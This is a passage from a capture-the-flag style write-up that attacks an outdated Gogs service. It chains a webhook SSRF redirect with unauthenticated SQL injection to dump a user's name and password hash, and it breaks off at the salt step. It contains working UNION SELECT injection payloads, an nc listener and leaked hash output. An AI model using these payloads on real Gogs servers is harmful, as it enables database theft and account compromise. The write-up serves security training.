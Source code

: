 By inspecting the source code, we have identified that the service running on port 3000 is an instance of Gogs. It appears to be an outdated version of Gogs based on the version number we found in the code 
>gogs a self-hosted git service written in go

Looking for public exploites we can find a sql vulnerabilities in this version with poc's

## Foothold
### Sql Injection
Gogs is vulnerable to unauthenticated SQL injection attacks through its user search API endpoint. The endpoint, located at /api/v1/users/search, allows JavaScript code to search for existing users within the system by passing a search query in the 'q' parameter. However, this parameter is susceptible to injection attacks, which can potentially lead to complete compromise of the database. This vulnerability is documented in ExploitDB at the following link: https://www.exploit-db.com/exploits/35238.

Back to webhook we did the last and run the redirect scrtpt with this payload
```bash
sudo python3 redirect.py 80 "http://localhost:3000/api/v1/users/search?q=')/**/ORDER/**/BY/**/27--"
```
we will receive the response with more data which is also leaking a username
```bash
nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.176 32784
POST / HTTP/1.1
Host: 10.10.16.17:9001
Accept: */*
Content-type: application/json
Content-Length: 564

{"webhookUrl":"http:\/\/10.10.16.17:9001","monitoredUrl":"http:\/\/10.10.16.17","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.6","Date":"Thu, 29 Dec 2022 08:25:46 GMT","Location":"http:\/\/localhost:3000\/api\/v1\/users\/search?q=')\/**\/ORDER\/**\/BY\/**\/27--","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"111"}}
```

we aleady know gogs is an opensource application. so we can read the source code from git rep of [gogs git](https://github.com/gogs/gogs). It use sqlitedb for storing data. From this git repo [https://github.com/gogs/gogs/tree/main/internal/db](https://github.com/gogs/gogs/tree/main/internal/db). we can identify how gogs create user table and their columns

Use the above webhook ssrf method we can dump username,password,salt from the user table

### Dumping user table
payload for username 
```bash
 sudo python3 redirect.py 80 "http://localhost:3000/api/v1/users/search?q=')/**/UNION/**/ALL/**/SELECT/**/1,10,(SELECT/**/name/**/from/**/user),4,12,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--" 
 ```
Username:susanne  
Payload for password
```bash
sudo python3 redirect.py 80 "http://localhost:3000/api/v1/users/search?q=')/**/UNION/**/ALL/**/SELECT/**/1,10,(SELECT/**/passwd/**/from/**/user),4,12,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--"
```
password:66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37cd  
Payload for salt
```bash
```